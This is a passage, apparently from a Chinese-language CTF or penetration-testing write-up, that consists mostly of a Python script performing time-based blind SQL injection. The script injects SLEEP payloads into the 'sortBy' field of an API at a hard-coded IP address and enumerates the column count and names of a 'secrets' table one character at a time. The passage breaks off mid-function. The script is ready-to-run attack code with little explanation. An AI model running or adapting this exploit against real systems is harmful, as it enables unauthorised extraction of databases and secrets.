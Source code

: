#### 后续就是爆表里面的东西

### 实在不想写了，直接生成脚本自动跑



### 脚本1：查看secrets表结构

```
import requests
import time

def test_sqli(payload):
    url = "http://113.45.189.144:5000/api/developer_utils/sorted_query"
    data = {
        "query": "%",
        "sortBy": f"name,IF({payload},SLEEP(5),1)",
        "order": "asc"
    }
    start = time.time()
    try:
        r = requests.post(url, json=data)
        elapsed = time.time() - start
        return elapsed > 4.5  # 延迟判断
    except:
        return False

def get_column_count():
    """获取secrets表的列数"""
    print("正在枚举secrets表的列数...")
    for count in range(1, 11):  # 假设最多10列
        payload = f"(SELECT COUNT(*) FROM information_schema.columns WHERE table_schema='webapp_db' AND table_name='secrets')={count}"
        if test_sqli(payload):
            print(f"secrets表有 {count} 列")
            return count
    return 0

def get_column_name(column_index):
    """获取指定索引的列名"""
    print(f"正在枚举第{column_index+1}列的名称...")
    
    # 先获取列名长度
    length = 0
    for len_val in range(1, 51):  # 假设列名最长50字符
        payload = f"LENGTH((SELECT column_name FROM information_schema.columns WHERE table_schema='webapp_db' AND table_name='secrets' LIMIT {column_index},1))={len_val}"
        if test_sqli(payload):
            length = len_val
            print(f"第{column_index+1}列名长度为: {length}")
            break
    
    if length == 0:
        return ""
    
    # 逐字符枚举列名
    column_name = ""
    for pos in range(1, length + 1):
        for ascii_val in range(32, 127):  # 可打印字符
            payload = f"ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='webapp_db' AND table_name='secrets' LIMIT {column_index},1),{pos},1))={ascii_val}"
            if test_sqli(payload):
                column_name += chr(ascii_val)
                print(f"第{column_index+1}列第{pos}个字符: {chr(ascii_val)}")
```